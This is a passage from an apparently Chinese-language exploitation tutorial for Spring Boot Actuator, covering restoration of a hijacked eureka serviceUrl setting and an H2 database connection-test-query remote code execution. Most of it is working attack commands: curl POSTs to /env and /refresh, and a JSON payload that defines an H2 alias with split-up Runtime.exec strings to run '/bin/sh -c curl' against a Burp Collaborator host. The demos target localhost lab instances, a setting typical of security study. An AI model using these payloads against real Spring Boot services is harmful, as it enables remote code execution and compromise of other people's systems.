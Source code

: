 ```plain
curl -X POST http://localhost:9093/refresh
```

[![](assets/1711556137-0eafcbe0788d228b4e163d5dd6c116a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111914-49db93d0-d176-1.png)

成功执行请求，也执行了命令。

- - -

**(4) 恢复 eureka.client.serviceUrl.defaultZone**

如果不恢复的话，那么就会一直执行，系统也会一直报错。

```plain
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone="原先的值" http://localhost:9093/env
```

然后刷新，使用新配置

```plain
curl -X POST http://localhost:9093/refresh
```

- - -

#### **3.restart h2 database query RCE**

```plain
cd springboot-h2-database-rce
mvn spring-boot:run
```

> 影响版本:(未知) 我改了配置文件，直接用了最新版的来做演示
> 
> 目前最新版:1.4.200

**(1) 设置 spring.datasource.hikari.connection-test-query**

```plain
cmd.json:
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/sh','-c','curl 0bcmbenbn8ydjn0zgztfb76hf8l29r.burpcollaborator.net');"}

curl -H "Content-Type:application/json" -X POST  -d @/tmp/cmd.json http://localhost:9096/actuator/env
```
